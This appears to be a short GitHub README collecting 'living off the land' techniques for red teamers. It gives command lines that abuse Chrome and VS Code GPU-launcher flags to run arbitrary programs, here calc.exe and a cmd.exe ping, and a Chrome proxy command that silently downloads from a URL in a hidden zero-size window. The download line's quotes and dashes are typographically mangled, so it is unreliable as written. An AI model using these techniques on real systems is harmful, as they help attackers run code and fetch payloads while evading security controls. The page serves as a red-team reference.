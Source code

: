# Binary_Alchemy-LOLBINS
BinaryAlchemy is a project for collecting known and commonly found executables in action for red teamers.

# Execution
### Chrome
````

 & 'C:\Program Files\Google\Chrome\Application\chrome.exe' --silent-launch --disable-gpu-sandbox --gpu-launcher="calc.exe"
 & 'C:\Program Files\Google\Chrome\Application\chrome_proxy.exe' --silent-launch --disable-gpu-sandbox --gpu-launcher="calc.exe"

````
### VSCode
````
- & "C:\Program Files\Microsoft VS Code\Code.exe" --disable-gpu-sandbox --gpu-launcher="C:\Windows\system32\cmd.exe /c ping google.com &&"
- & "C:\Program Files\Microsoft VS Code\Code.exe" --disable-gpu-sandbox --gpu-launcher="calc.exe"

````
-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Download
### Chrome
````

& ‘C:\Program Files\Google\Chrome\Application\chrome_proxy.exe’ — profile-directory=Default — incognito — chrome-frame — user-data-dir=”C:\Temp\Temp-chrome\” — window-size=0,0 — window-position=”0000,1000" <URL>

````
-----------------------------------------------------------------------------------------------------------------------------------------------------------------------
